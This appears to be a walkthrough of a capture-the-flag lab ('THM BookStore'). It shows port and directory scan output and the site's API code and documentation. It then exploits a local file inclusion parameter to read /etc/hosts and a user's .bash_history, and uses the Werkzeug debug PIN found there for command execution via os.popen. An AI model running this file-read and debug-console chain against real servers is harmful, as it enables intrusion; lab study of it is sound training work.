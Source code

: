 
<code>

### Service Enumaration  
┌──(duke㉿kali)-[~/Documents/THM_BookStore]
└─$ nmap  -sV -Pn 10.10.189.121

Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-19 03:54 CST
Nmap scan report for 10.10.189.121
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds

### Web Enumaration  

┌──(duke㉿kali)-[~/Documents/THM_BookStore]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.189.121 -x .txt,.php,html
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://10.10.189.121
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
2024/02/19 03:54:59 Starting gobuster in directory enumeration mode
/images               (Status: 301) [Size: 315] [--> http://10.10.189.121/images/]
/index.html           (Status: 200) [Size: 6452]                                  
/login.html           (Status: 200) [Size: 5325]                                  
/books.html           (Status: 200) [Size: 2940]                                  
/assets               (Status: 301) [Size: 315] [--> http://10.10.189.121/assets/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.189.121/javascript/]
/LICENSE.txt          (Status: 200) [Size: 17130]                                     
/server-status        (Status: 403) [Size: 278]                                       
                                                                                      
` ===============================================================
` 2024/02/19 04:45:40 Finished
` ===============================================================




function getAPIURL() {
var str = window.location.hostname;
str = str + ":5000"
return str;

    }


async function getUsers() {
    var u=getAPIURL();
    let url = 'http://' + u + '/api/v2/resources/books/random4';
    try {
        let res = await fetch(url);
	return await res.json();
    } catch (error) {
        console.log(error);
    }
}

async function renderUsers() {
    let users = await getUsers();
    let html = '';
    users.forEach(user => {
        let htmlSegment = `<div class="user">
	 	        <h2>Title : ${user.title}</h3> <br>
                        <h3>First Sentence : </h3> <br>
			<h4>${user.first_sentence}</h4><br>
                        <h1>Author: ${user.author} </h1> <br> <br>        
                </div>`;

        html += htmlSegment;
   });
   
    let container = document.getElementById("respons");
    container.innerHTML = html;
}
renderUsers();
//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.




API Documentation
Since every good API has a documentation we have one as well!
The various routes this API currently provides are:

/api/v2/resources/books/all (Retrieve all books and get the output in a json format)

/api/v2/resources/books/random4 (Retrieve 4 random records)

/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)

/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)

/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)

/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)



>>> os.popen('id').read()
'uid=1000(sid) gid=1000(sid) groups=1000(sid)\n'
>>> os.popen('pwd').read()
'/home/sid\n'


http://10.10.194.43:5000/api/v1/resources/books?show=/etc/hosts
http://10.10.194.43:5000/api/v1/resources/books?show=/home/sid/.bash_history
cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-135 echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit 


<\code>
